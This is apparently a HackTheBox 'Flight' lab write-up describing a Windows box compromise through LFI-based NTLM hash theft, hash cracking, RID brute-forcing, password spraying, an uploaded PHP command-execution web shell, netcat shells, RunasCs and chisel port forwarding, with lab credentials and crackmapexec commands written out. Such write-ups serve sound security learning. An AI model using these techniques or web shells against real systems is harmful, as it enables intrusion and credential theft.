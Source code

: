 <h3> Flight HackTheBox </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c012e655-7e5c-4c31-8bf3-d31ab3d068d6)

We can see the domain name *flight.htb* I added it to my */etc/hosts* file

So there are lots of port but lets start enumerating

Checking smb doesn't allow anonymous listing of shares
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9296cc02-c57a-4eda-9c4a-b4541a8bd824)

Moving over to the web server on port 80 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/432b7a5c-8c37-426f-bb93-f8540d78ca8f)

There's nothing really there

So lets fuzz for subdomains
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/129097e3-8909-4f06-90f0-5e255ca79ee2)

I'll update my */etc/hosts* file with the new sub domain

Checking it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73ecbdbf-a6f4-4915-bb3d-6d665b840d05)

When I clicked on the home button i get this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c2c901e0-2e9f-4b5b-84ed-e551893e52db)

Noticing the url we can see that it's including the file *home.html*

We can say that this is vulnerable to local file inclusion lets confirm it 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c0a9997-6e39-48e1-be14-a0bfa3c115f0)

One way we can exploit this is by trying to perform ntlm hash theft 

Using responder i'll steal the ntlm hash
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6c41a537-551f-4fe6-aaa5-c3c21bcec541)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a55adb5c-80f3-49a1-b3fa-854601f3a899)

While on the web server I'll do this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/890cf68a-99be-4947-843f-862fa322773f)

Back on responder I got the hash for user *svc_apache*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b99248b3-00e9-4a8a-bb67-67b1977a0eed)

I brute forced it using JTR 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e2308968-3279-4b93-9a4b-06737a3e685c)

Now we have a cred `svc_apache:S@Ss!K@*t13`

Trying to authenticate to winrm fails 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb1d2dd8-52b8-4dd4-bcfd-baec906a7ccf)

But we can login to smb using the cred
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/84057eae-b3fb-44be-9d06-8a0d697a16a2)

It shows the smb hostname as *G0* I also added that to my */etc/hosts* file

We don't really have good access over the shares but searching through the shares doesn't reveal any form of interesting cred
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/621c1544-ee11-48a7-b5de-dc8a67d859a2)

One thing we can do since we have smb cred is to get list of users on the box via *rid bruteforce* then perform a password spraying attack
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/880fe446-2b07-4ce0-96c6-2c1a546ff94c)

I saved the result in a file then used bash scripting to get only the usernames there

```
Command:
crackmapexec smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute > brute
cat brute | awk '{print $6}' | grep flight | cut -d '\' -f 2 | grep -v svc_apache > users.txt
```

Now we can use kerbrute to perform password spraying
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7fd70294-7f1d-40b9-b985-566b6af6c2ee)

Cool we have another user's cred `S.Moon:S@Ss!K@*t13`

Trying the cred over winrm fails
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f04279a-329d-47f2-bcc7-582c7db18ca5)

Checking the perm the user has over smb shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0ed3fd86-c81d-4894-9784-0fec6423c2da)

Nice we have write access over the *Shared* share

But looking at the shares shows that no file is there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4a9603fb-74f0-4cdb-a5c7-92f2dd367962)

What we can attempt to do is to upload a file whether *scf or ini* to perform ntlm hash theft

I used this [script](https://github.com/Greenwolf/ntlm_theft) to generate the payload file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a57713e-6f1c-49bf-a382-8346f2484a40)

I had responder listening already and after some seconds I got a hit
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/42013ca3-f4be-40bb-b359-ad4e83458707)

I saved the hash then brute forced it using JTR
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ca94464f-f23c-429c-af71-aeced185015b)

We have another cred `c.bum:Tikkycoll_431012284`

Using cme i tried if it can connect to winrm but nope it can't
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/94ffe11c-cfbb-451b-bc1f-c66668f2e6dc)

Checking the perm the user has over smb gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0ca48bf4-77e5-4b2d-86f9-f7e9958669aa)

Nice we have access over the Web shares

Moving over there shows that this is where the web server files are placed
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cb232b32-9340-4f12-9123-4d02b8529734)

I uploaded a php command execution script
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46402f2e-bcaa-4bfa-b926-2e15e4e06761)

```php
<?php
system($_REQUEST['c']);
?>
```

We can now access it from the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fd99908-e66d-4600-b3f3-422b388dcb10)

To get shell I uploaded nc to the smb and then got shell from it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2ef35092-24bd-436a-b199-ff7cee2e16e4)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bb20f60e-0d5b-48cb-a37a-c32b730d5bda)

Shell finally 😃

Lets see what we can do from here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2f8b794a-bc58-4a65-a269-008fc0a972ae)

But what I noticed that the current working directory was *C:\xampp\htdocs\flight.htb* but there's a *inetpub* directory in the *C:/* drive

So this means maybe there's an internal web app running 🤔

Checking that directory shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/48468b00-b9e9-4585-9056-f48c78e392cf)

We can conclude that the only user privileged to access the *development* directory is user *C.Bum*

Though we have the user's cred but since our shell can't work well when we run *runas* i'll need a better shell

Luckily there's a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that can help with this

I uploaded it to the box then got to switch to user c.bum
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6004085a-1293-48fd-98f3-918d862fb696)

Back to the web directory it shows the user has write access over it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c3473dd-2836-45df-b4dc-092e63149b50)

So what i did was to upload a aspx shell since the web server will be IIS
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9aad22ff-2f43-4945-ae28-86d863e98d6a)

Now lets see if there's any internal port
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2cc26d04-6eec-4557-8f33-f1c7b58ccee1)

```
Command: netstat -ano
```

Port 8000 looks promising cause something is listening on it

And yea it's a web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58ec6cb2-3e6e-45c0-b8b3-447a601c97f4)

Using chisel I port forwarded the internal port
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7e80222-519f-44e4-a74e-d213561fb89c)

Back on our host we can now access the internal web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/37e6f914-8bd4-489f-bd4e-9d5a50152e4b)

To access our shell is as easy as going over to /shell.aspx
